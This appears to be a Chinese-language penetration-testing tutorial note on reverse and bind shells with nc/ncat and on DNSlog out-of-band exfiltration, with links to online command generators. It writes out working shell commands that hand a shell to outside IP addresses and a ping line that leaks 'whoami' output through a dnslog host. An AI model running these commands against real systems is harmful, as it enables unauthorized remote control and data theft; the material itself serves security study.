




### 文件下载命令生成：

https://forum.ywhack.com/bountytips.php?download


### 反弹shell

命令生成：https://forum.ywhack.com/shell.php

为什么需要反弹shell

**解决数据回显**



比如一个漏洞像这种，输入一个命令之后，需要你继续输入东西的，我们如果没有对方的界面，就无法继续输入东西。所以需要反弹shell获取到对方的界面

**解决数据通讯**

如果在网页上已知提交，提交一条就会有一条记录，但如果反弹shell之后就只有一条记录，后面都是本地的


#### 正向连接（本地监听等对方连接）

**Linux控制Windows**

nc在linux是自带的，在windows需要下载


在windows中：将cmd绑定到本地的5566端口（端口随机）：

`nc -e cmd -lvp 5566`

在linux中：主动连接目标的5566

`ncat 47.122.23.131 5566`


**windows控制linux**

在Linux中：绑定sh到本地5566端口

`ncat -e /bin/sh -lvp 5566`

在windows中：主动连接目标的5566

`nc 47.94.236.117 5566`


#### 反向连接（主动给出到对方监听的端口）

 例如：

windows监听本地的5566：

`nc -lvp 5566`

linux绑定自己的sh，给到对方的5566端口：

`ncat -e /bin/sh 121.62.16.96 5566`


要控制内网一台机器的权限，只能通过反向连接，因为你不知道内网机器的IP


**场景：**漏洞有，但是**数据不回显**——反弹shell

什么是dnslog

打开dnslog平台可以看到自己的地址 4o7zc8.dnslog.cn

通过linux服务器 ping 4o7zc8.dnslog.cn 可以看到记录：



linux服务器输入命令：

```
ping `whoami`.4o7zc8.dnslog.cn
```

结果：


```
但是windows主机并不支持``，

cmd无法执行whoami，因为前面有个ping，要ping `whoami` 才能执行到whoami，但是windows主机的话不支持``，所以需要用到powershell变量赋值把whoami的执行结果给变量。因为执行结果中带有“\“导致ping无法执行，所以把\换掉


```








